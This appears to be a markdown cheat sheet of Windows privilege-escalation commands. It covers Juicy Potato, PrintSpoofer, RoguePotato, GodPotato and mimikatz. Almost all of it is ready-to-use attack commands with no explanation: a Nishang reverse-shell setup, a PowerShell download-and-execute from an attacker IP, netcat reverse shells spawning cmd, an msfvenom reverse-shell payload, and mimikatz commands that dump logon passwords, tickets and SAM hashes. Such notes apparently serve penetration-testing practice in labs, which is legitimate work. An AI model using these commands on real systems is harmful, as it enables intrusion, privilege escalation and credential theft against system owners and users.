 ### Juicy Potato
```bash
1. First copy the Invoke-PowerShellTcp.ps1 script once again into your current directory.
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell-2.ps1

2. Add the following line to the end of the script with the attack configuration settings.
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666

3. Next, create a shell.bat file that downloads the above shell-2.ps1 PowerShell script and runs it.
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')

4. Then download the shell.bat file on the target machine.
(new-object net.webclient).downloadfile('http://10.10.14.7:5555/shell.bat', 'C:\Users\kohsuke\Desktop\shell.bat')

5. Setup a listener on the attack machine to receive the reverse shell.
nc -nlvp 6666

6. Then run the Juicy Potato executable.
./jp.exe -t * -p shell.bat -l 4444

```

### PrintSpoofer
```bash
iwr -uri http://192.168.45.176/PrintSpoofer64.exe -Outfile PrintSpoofer.exe
iwr -uri http://192.168.45.176/nc.exe -Outfile nc.exe
.\PrintSpoofer.exe -c "C:\temp\nc.exe 192.168.45.202 443 -e cmd"
```

### RoguePotato
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<TARGET.MACHINE.IP>:9999
## sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.217.247:9999

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=53 -f exe > reverse.exe
nc -nvlp 53

iwr -uri http://192.168.45.176/RoguePotato.exe -Outfile RoguePotato.exe
iwr -uri http://192.168.45.176/reverse.exe -Outfile reverse.exe

.\RoguePotato.exe -r 192.168.45.176 -l 9999 -e ".\reverse.exe"
```

### GodPotato
```bash
Windows Privesc: God Potato(https://github.com/BeichenDream/GodPotato)
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.202 7777"
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd ".\revshell7777.exe"

```
### mimikatz
```bash
privilege::debug
token::elevate

sekurlsa::logonpasswords
sekurlsa::tickets
lsadump::sam
lsadump::lsa
```